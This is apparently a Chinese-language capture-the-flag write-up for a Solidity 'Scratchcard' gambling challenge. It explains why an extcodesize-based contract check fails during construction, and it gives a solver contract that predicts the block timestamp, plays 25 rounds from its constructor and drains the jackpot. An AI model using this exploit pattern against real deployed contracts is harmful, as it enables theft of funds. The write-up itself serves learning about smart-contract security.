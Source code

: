 
# Game 13: Scratchcard

该游戏是想通过 play 来猜当前区块的打包时间戳的后八位，如果猜对了则返还赌注，并给我们累计一次胜利次数，如果猜错了则直接清空胜利次数。当连续胜利次数到达25次之后即可提现，至少提走自己花费的钱的二倍。

我们知道目前以太坊大概16秒出一个块，但我们无法保证一定是相差16秒，且我们的交易不一定在发出后立刻被打包到当前区块（gas费高只能提高概率）。同时该游戏为了避免我们使用合约直接读取当前区块的时间戳，使用了如下的一个装饰器来避免来自合约的调用。

```
library Address {
    function isContract(address account) internal view returns (bool) {
        uint256 size;
        assembly { size := extcodesize(account) }
        return size > 0;
    }
}
modifier notContract(){
    require(!msg.sender.isContract(), "Contracts Not Allowed");
    _;
}
```

但是，查看官网文档可知，当一个合约在创建部署的过程中他的 extcodesize 依旧是 0。因此我们完全可以在部署中直接进行 25 次游戏。参考代码如下。

```
contract ScratchcardSolver {
    address public owner;
    address public target;

    constructor(address t) public payable {
        require(msg.value >= 10 * 10**18, "not enough to play 25 times");
        owner = msg.sender;
        target = t;
        uint256 val = (now % 10**8) * 10**10;
        for (int256 i = 0; i < 25; i++) {
            I3(target).play.value(val)();
        }
        I3(target).collectMegaJackpot(address(target).balance);
    }

    function withdraw() external {
        owner.transfer(address(this).balance);
    }
}

interface I3 {
    function play() external payable;
    function collectMegaJackpot(uint256 _amount) external;
}

```

但是我们依旧有一个问题需要解决，就是给我们的合约添加授权，之前都是在创建后拿到地址，然后去添加授权。本次只能通过预测拿到地址，然后提前授权（注意授权操作也会使nonce变大），最后部署该Solver。

